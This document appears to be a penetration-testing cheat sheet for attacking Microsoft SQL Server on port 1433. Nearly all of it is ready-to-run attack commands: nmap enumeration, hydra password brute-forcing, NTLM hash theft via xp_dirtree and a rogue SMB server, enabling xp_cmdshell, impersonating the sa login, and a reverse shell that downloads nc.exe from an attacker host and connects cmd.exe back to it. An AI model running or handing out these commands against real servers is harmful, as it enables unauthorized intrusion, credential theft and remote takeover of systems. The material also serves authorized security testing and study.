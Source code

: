 # MSSQL \[1433]

## Enumeration <a href="#get-information" id="get-information"></a>

```shell-session
nmap -Pn -sV -sC -p1433 10.10.10.125
```

## Get information <a href="#get-information" id="get-information"></a>

```
nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 <IP>
```

## Brute force <a href="#brute-force-5" id="brute-force-5"></a>

```
hydra -L <USERS_LIST> -P <PASSWORDS_LIST> <IP> mssql -vV -I -u
```

## Having credentials <a href="#having-credentials" id="having-credentials"></a>

```
mssqlclient.py -windows-auth <DOMAIN>/<USER>:<PASSWORD>@<IP>
mssqlclient.py <USER>:<PASSWORD>@<IP>

# Once logged in you can run queries:
SQL> select @@ version;

# Steal NTLM hash
sudo smbserver.py -smb2support liodeus .
SQL> exec master..xp_dirtree '\\<IP>\liodeus\' # Steal the NTLM hash, crack it with john or hashcat

# Try to enable code execution
SQL> enable_xp_cmdshell

# Execute code
SQL> xp_cmdshell whoami /all
SQL> xp_cmdshell certutil.exe -urlcache -split -f http://<IP>/nc.exe
```

`MSSQL` default system schemas/databases:

* `master` - keeps the information for an instance of SQL Server.
* `msdb` - used by SQL Server Agent.
* `model` - a template database copied for each new database.
* `resource` - a read-only database that keeps system objects visible in every database on the server in sys schema.
* `tempdb` - keeps temporary objects for SQL queries.

## command execution

**XP\_CMDSHELL**

```cmd-session
1> xp_cmdshell 'whoami'
2> GO

output
-----------------------------
no service\mssql$sqlexpress
NULL
(2 rows affected)
```

To enable xp\_cmdshell follow the following steps.

```
-- To allow advanced options to be changed.  
EXECUTE sp_configure 'show advanced options', 1
GO

-- To update the currently configured value for advanced options.  
RECONFIGURE
GO  

-- To enable the feature.  
EXECUTE sp_configure 'xp_cmdshell', 1
GO  

-- To update the currently configured value for this feature.  
RECONFIGURE
GO
```

{% hint style="info" %}
`xp_regwrite` is used to elevate privileges by creating new entries in the Windows registry
{% endhint %}

### Exploring database

<table><thead><tr><th width="339">Commands</th><th>Description</th></tr></thead><tbody><tr><td><code>SELECT name FROM master.dbo.sysdatabases</code></td><td>List all the databases.</td></tr><tr><td><code>USE &#x3C;database></code></td><td>select the database from available databases.</td></tr><tr><td>SELECT table_name FROM &#x3C;database>.INFORMATION_SCHEMA.TABLES</td><td>List all the tables.</td></tr><tr><td><code>SELECT &#x3C;column1>, &#x3C;column2> FROM &#x3C;table>;</code></td><td>print out all the vlaues from the table and columns specified.</td></tr><tr><td>SELECT * FROM &#x3C;table> WHERE &#x3C;column> = "&#x3C;str>"</td><td>list contents where search item is located.</td></tr></tbody></table>

> type GO after each command

## PrivEsc

**Impersonating the SA User**

```cmd-session
# Find users you can impersonate
SELECT distinct b.name
FROM sys.server_permissions a
INNER JOIN sys.server_principals b
ON a.grantor_principal_id = b.principal_id
WHERE a.permission_name = 'IMPERSONATE'
# Check if the user "sa" or any other high privileged user is mentioned

1> EXECUTE AS LOGIN = 'sa'
2> SELECT SYSTEM_USER
3> SELECT IS_SRVROLEMEMBER('sysadmin')
4> GO

-----------
sa

(1 rows affected)

-----------
          1

(1 rows affected)
```

## Steal NetNTLM hash / Relay attack

You should start a **SMB server** to capture the hash used in the authentication (`impacket-smbserver` or `responder` for example).

```bash
xp_dirtree '\\<attacker_IP>\any\thing'
exec master.dbo.xp_dirtree '\\<attacker_IP>\anything'
EXEC master..xp_subdirs '\\<attacker_IP>\anything\'
EXEC master..xp_fileexist '\\<attacker_IP>\anything\'

# Capture hash
sudo responder -I tun0
sudo impacket-smbserver share ./ -smb2support
msf> use auxiliary/admin/mssql/mssql_ntlm_stealer
```

### XP\_CMDSHELL reverse shell

```
xp_cmdshell "powershell.exe wget http://192.168.1.2/nc.exe -OutFile c:\\Users\Public\\nc.exe"
xp_cmdshell  "c:\\Users\Public\\nc.exe -e cmd.exe 192.168.1.2 4444"
```
